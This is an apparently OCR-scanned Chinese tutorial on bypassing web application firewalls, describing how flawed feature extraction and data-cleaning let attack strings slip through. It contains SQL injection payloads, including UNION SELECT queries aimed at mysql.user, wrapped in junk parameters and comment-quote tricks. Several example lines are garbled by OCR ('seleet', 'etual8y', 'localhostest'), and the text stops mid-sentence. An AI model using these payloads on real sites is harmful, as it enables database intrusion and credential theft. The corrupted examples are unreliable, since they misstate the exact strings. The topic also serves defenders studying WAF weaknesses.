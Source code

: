 
## 实例讲解WAF绕过的思路和方法

### <a name="%E4%B8%80%E3%80%81%E6%95%B0%E6%8D%AE%E6%8F%90%E5%8F%96%E6%96%B9%E5%BC%8F%E5%AD%98%E5%9C%A8%E7%BC%BA%E9%99%B7%EF%BC%8C%E5%AF%BC%E8%87%B4WAF%E8%A2%AB%E7%BB%95%E8%BF%87"></a>一、数据提取方式存在缺陷，导致WAF被绕过

某些WAF从数据包中提取检测特征的方式存在缺陷，如正则表达式不完善，某些攻击数据因为某些干扰字符的存在而无法被提取。

#### <a name="%E7%A4%BA%E4%BE%8B:"></a>示例:

```
http://localhost/test/Article. php?type= 1&amp;x=/&amp;id=-2 union all select 1,2,3,4,5 from dual&amp;y=/
```

某WAF在后端会将删除线部分当作注释清洗掉:

#### <a name="Request:"></a>Request:

```
http://localhost/Article.php?type= 1&amp;x=/&amp;id=-2 union all select 1,2,3,4,5 from dual&amp;y=/
```

#### <a name="WAF:"></a>WAF:

```
http://localhost/Article.php?type=1&amp;x=+8id- 2 union ol seleet 1.23,45 from etual8y +
```

### <a name="%E4%BA%8C%E3%80%81%E6%95%B0%E6%8D%AE%E6%B8%85%E6%B4%97%E6%96%B9%E5%BC%8F%E4%B8%8D%E6%AD%A3%E7%A1%AE%EF%BC%8C%E5%AF%BC%E8%87%B4WAF%E8%A2%AB%E7%BB%95%E8%BF%87"></a>二、数据清洗方式不正确，导致WAF被绕过

当攻击者提交的参数值中存在大量干扰数据时，如大量空格、TAB、 换行、%0C、 注释等，WAF需要对其进行清洗:

(为提升性能和降低规则复杂性)，筛选出真实的攻击数据进行检测，但是，如果清洗方式不正确，会导致真正的攻击部分被清洗，然后拿去检测的是不含有攻击向量的数据，从而被Bypass!

<a name="%E5%AE%9E%E4%BE%8B%EF%BC%9A"></a>实例：

```
htp://localhostest/Article .php?id9999-“/*“ union all select 1,2,3,4,5 as “*/“from mysql.user
```

某些WAF会将9999-“/*“ union all select 1 ,2,3, 4,5 as “/*” from mysql.user清洗为: 9999-“”from mysql.user

<a name="%E7%84%B6%E5%90%8E%E5%8E%BB%E6%A3%80%E6%B5%8B%E6%98%AF%E5%90%A6%E6%9C%89%E6%94%BB%E5%87%BB%E7%89%B9%E5%BE%81,%E5%A6%82%E6%9E%9C%E6%B2%A1%E6%9C%89,%E6%89%A7%E8%A1%8C%E5%8E%9F%E5%A7%8B%E8%AF%AD%E5%8F%A5:"></a>然后去检测是否有攻击特征,如果没有,执行原始语句:

```
9999-“/*“ union all select 1,2,3,4,5 as “*/“ from mysql.user
```

<a name="%E5%A6%82%EF%BC%9A"></a>如：

